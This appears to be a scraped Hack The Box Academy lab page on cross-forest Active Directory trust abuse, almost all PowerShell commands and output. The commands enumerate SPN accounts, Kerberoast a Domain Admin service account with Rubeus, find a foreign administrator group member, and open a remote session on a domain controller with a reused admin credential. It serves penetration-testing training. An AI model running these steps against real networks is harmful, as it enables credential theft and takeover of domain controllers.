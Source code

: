 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/143/section/1487
// Platform Version: V1
// Module ID: 143
// Module Name: Active Directory Enumeration & Attacks
// Module Difficulty: Medium
// Section ID: 1487
// Section Title: Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
// Page Title: Hack The Box - Academy
// Page Number: 30
-->

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

**Module Name:** Active Directory Enumeration & Attacks **Page Number:** 30

#### 

#### ACTIVE DIRECTORY ENUMERATION & ATTACKS

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

#### Enumerating Accounts for Associated SPNs Using Get-DomainUser

``` powershell-session
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

#### Enumerating the mssqlsvc Account

``` powershell-session
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

``` powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

## Admin Password Re-Use & Group Membership

#### Using Get-DomainForeignGroupMember

``` powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

#### Accessing DC03 Using Enter-PSSession

``` powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

## SID History Abuse - Cross Forest

![https://academy.hackthebox.com/storage/modules/143/sid-history.png](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

## Onwards

# 

# 

#### Questions

####